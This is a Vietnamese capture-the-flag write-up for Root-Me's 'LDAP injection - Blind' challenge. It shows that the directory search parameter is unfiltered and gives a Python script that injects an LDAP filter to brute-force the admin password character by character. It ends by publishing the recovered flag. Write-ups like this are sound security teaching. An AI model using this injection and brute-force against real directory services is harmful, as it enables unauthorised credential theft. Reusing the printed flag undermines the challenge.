 ```diff
@@ Web-Server Challenge @@
```

## LDAP injection - Blind [55 Points]

* Ở site **dir** của trang web cho phép ta search một user bất kỳ, tham số được truyền bằng phương thức GET, param nằm trên đường dẫn và ta có thể inject vào đây

  ![12](img/12.jpg)

* Vậy là **ldap_search()** tìm kiếm thư mục dựa trên query của chúng ta mà không cần xác thực. Thử các ký tự đặc biệt như *****, **()** ta thấy nó không bị filter

  ![12-1](img/12-1.jpg)

* Chuẩn bị một payload để thực hiện brute-force password

  ```python
  import requests

  flag = ""
  url="http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=admin*)(password="
  for i in range(1,20):
      check = False
      for j in range(39,127):
          pw = flag + chr(j)
          r = requests.get(url=url+pw)
          if("admin" in r.text):
              flag+=chr(j)
              print(flag)
              check = True
          if(check):
              break
  print(flag)
  ```

* Kết quả ta thu được password của admin -> chính là Flag

  ![12-2](img/12-2.jpg)

* Tuy nhiên LDAP không phân biệt chữ hoa-thường, nên kết quả sẽ phải là

  ```diff
  -- dsy365gdzerzo94
  ```
